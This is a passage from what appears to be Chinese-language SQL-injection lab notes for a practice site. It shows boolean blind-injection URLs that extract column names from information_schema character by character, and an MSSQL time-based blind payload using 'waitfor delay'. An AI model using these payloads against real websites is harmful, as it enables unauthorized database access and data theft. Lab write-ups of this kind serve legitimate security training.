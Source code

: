 ```sql
//第二个字段名-->password
http://192.168.100.226/less-1.asp?id=1' and substring((select column_name from (select column_name, row_number() over (order by column_name) as row_num from test.information_schema.columns where table_name = 'users') as columns_row where row_num = 2),1,1)='d' --+
```

![image-20240905201516632](./assets/image-20240905201516632.png)

```sql
//第二个字段名-->username
http://192.168.100.226/less-1.asp?id=1' and substring((select column_name from (select column_name, row_number() over (order by column_name) as row_num from test.information_schema.columns where table_name = 'users') as columns_row where row_num = 3),1,1)='d' --+
```

![image-20240905201716262](./assets/image-20240905201716262.png)

------

# 时间盲注

#### 判断数据库名长度-->`5`

```sql
id=1'if(len(db_name())=5) waitfor delay '0:0:5' --+
```
